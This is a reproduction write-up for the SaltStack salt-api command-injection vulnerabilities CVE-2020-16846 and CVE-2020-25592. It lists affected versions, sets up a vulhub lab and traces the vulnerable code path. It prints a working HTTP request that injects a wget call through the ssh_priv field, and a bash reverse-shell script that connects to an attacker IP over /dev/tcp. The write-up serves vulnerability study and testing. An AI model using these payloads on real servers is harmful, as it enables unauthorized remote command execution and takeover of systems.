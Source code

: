 # SaltStack Unauthorized Access Command Execution Vulnerability CVE-2020-16846 25592

## Vulnerability Description

On November 4, 2020, SaltStack officially released a security update announcement, in which CVE-2020-16846 and CVE-2020-25592 are used in combination to execute arbitrary commands through the salt-api interface without authorization. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 3002</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 3001.1, 3001.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 3000.3, 3000.4</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2019.2.5, 2019.2.6</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2018.3.5</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2017.7.4, 2017.7.8</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2016.11.3, 2016.11.6,2016.11.10</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2016.3.4, 2016.3.6,2016.3.8</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">SaltStack Version 2015.8.10, 2015.8.13</span>

## Environment construction

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/saltstack/CVE-2020-16846
docker-compose up -d
```

## Vulnerability reappears

The salt-api REST interface uses the cherrypy framework by default. From the implementation of the run interface, it can be seen that the methods in the NetapiClient class are dynamically called through the client parameters.

The following convention is adopted for specifying the code location in the article `FileLocation:Classname.method()`

`salt/netapi/init.py:NetapiClient.run()`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165558077.png)



The low parameter is an external incoming parameter, and the salt.utils.args.format_call method assigns the parameter to `kwargs. 



`salt/netapi/init.py:NetapiClient.ssh()`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165551777.png)



Follow up, the path is as follows:

`salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd_sync()⇒salt/client/ssh/client.py:SSHClient._prep_ssh()`

`salt/client/ssh/client.py:SSHClient._prep_ssh()`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165554779.png)



This method updates the value of the kwargs external controllable parameter opts variable, which can be understood as the environment variable of the SaltStack system, and uses this variable to initialize salt.client.ssh.SSH.

`salt/client/ssh/init.py:SSH.__init__()`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165552768.png)



The value of priv is obtained from the opts variable and the `salt.client.ssh.shell.gen_key()` method is called

`salt/client/ssh/shell.py:gen_key()`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165551783.png)

```shell
POST /run HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget http://xxx.dnslog.cn
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165554420.png)



The method to rebound shell, write the bash file first, the content is a rebound shell statement, and use wget to download it to the target.

```bash
#!/bin/sh
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165553216.png)

Listen to the port, use `/bin/bash` to run the file rebound shell

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311165552939.png)

## Reference article

<a-alert type="success" message="https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag" description="" showIcon>
</a-alert>
<br/>